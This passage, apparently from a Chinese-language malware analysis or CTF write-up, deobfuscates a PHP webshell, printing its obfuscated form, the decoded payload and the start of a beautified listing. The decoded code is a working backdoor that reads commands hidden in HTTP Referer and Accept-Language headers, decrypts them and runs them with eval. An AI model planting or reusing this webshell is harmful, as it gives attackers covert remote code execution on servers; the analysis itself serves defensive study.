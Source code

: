 ```
$k='];`}``}`re&gt;]&gt;]turn $o;&gt;]`}`$&gt;]r=$_SERV&gt;]ER;$rr=@$r[&gt;]"HTTP&gt;]_REFERE&gt;]R"];$ra&gt;]=@&gt;]$r["&gt;]HTTP_A&gt;]CC&gt;]EP&gt;';
$g='"";for(&gt;]$i=&gt;]0;$i&lt;$l;&gt;])&gt;]`{`for($j=0;($j&lt;&gt;]$c&amp;&amp;&gt;]$i&lt;$l);$&gt;]j++,$i&gt;]++)`{`$o.&gt;]=$t`{`$i&gt;]`}`^$k`{`$j`}`&gt;';
$R='$k&gt;]h="cb4&gt;]2";$kf="e130"&gt;];functio&gt;]n&gt;] x($t&gt;],$k)`{`$c=s&gt;]trle&gt;]&gt;]n($k);$l=strle&gt;]n&gt;]($t)&gt;];$o=';
$Q=']s[$i].=$p;$e=strp&gt;]&gt;]os(&gt;]$s[$i&gt;]],$f);if($&gt;]e)`{`$k=$kh.$k&gt;]f;&gt;]ob_sta&gt;]rt();@e&gt;]val(@gzun&gt;]co&gt;';
$v=']mpress(@x&gt;](@b&gt;]as&gt;]&gt;]e64_decode(pr&gt;]&gt;]e&gt;]g_repla&gt;]ce(array("/_/","/-/"),arr&gt;]ay(&gt;]"/","+"&gt;]';
$x=str_replace('&gt;]','',$R.$g.$k.$e.$d.$M.$p.$t.$P.$Q.$v.$W.$E);
$N=$j('',$x);$N();
?&gt;
```

于是我立刻进行了解混淆

```
var_dump($j);
var_dump($x);
```

得到结果

```
string(15) "create_function"
string(929) "$kh="cb42";$kf="e130";function x($t,$k)`{`$c=strlen($k);$l=strlen($t);$o="";for($i=0;$i&lt;$l;)`{`for($j=0;($j&lt;$c&amp;&amp;$i&lt;$l);$j++,$i++)`{`$o.=$t`{`$i`}`^$k`{`$j`}`;`}``}`return $o;`}`$r=$_SERVER;$rr=@$r["HTTP_REFERER"];$ra=@$r["HTTP_ACCEPT_LANGUAGE"];if($rr&amp;&amp;$ra)`{`$u=parse_url($rr);parse_str($u["query"],$q);$q=array_values($q);preg_match_all("/([w])[w-]+(?:;q=0.([d]))?,?/",$ra,$m);if($q&amp;&amp;$m)`{`@session_start();$s=&amp;$_SESSION;$ss="substr";$sl="strtolower";$i=$m[1][0].$m[1][1];$h=$sl($ss(md5($i.$kh),0,3));$f=$sl($ss(md5($i.$kf),0,3));$p="";for($z=1;$z&lt;count($m[1]);$z++)$p.=$q[$m[2][$z]];if(strpos($p,$h)===0)`{`$s[$i]="";$p=$ss($p,3);`}`if(array_key_exists($i,$s))`{`$s[$i].=$p;$e=strpos($s[$i],$f);if($e)`{`$k=$kh.$kf;ob_start();@eval(@gzuncompress(@x(@base64_decode(preg_replace(array("/_/","/-/"),array("/","+"),$ss($s[$i],0,$e))),$k)));$o=ob_get_contents();ob_end_clean();$d=base64_encode(x(gzcompress($o),$k));print("&lt;$k&gt;$d&lt;/$k&gt;");@session_destroy();`}``}``}``}`"
```

此时整个小马已经清晰可见<br>
关注最后的调用

```
$N = create_function('',$x);
$N();
```

重点在于$x，我们对其进行美化和反混淆

```
&lt;?php
function x($t, $k)
`{`
    $c = strlen($k);
    $l = strlen($t);
    $o = "";
    for ($i = 0; $i &lt; $l;) `{`
        for ($j = 0; $j &lt; $c &amp;&amp; $i &lt; $l; $j++, $i++) `{`
            $o .= $t[$i] ^ $k[$j];
        `}`
    `}`
    return $o;
`}`
$rr = @$_SERVER["HTTP_REFERER"];
$ra = @$_SERVER["HTTP_ACCEPT_LANGUAGE"];
if ($rr &amp;&amp; $ra) `{`
    $u = parse_url($rr);
    parse_str($u["query"], $q);
```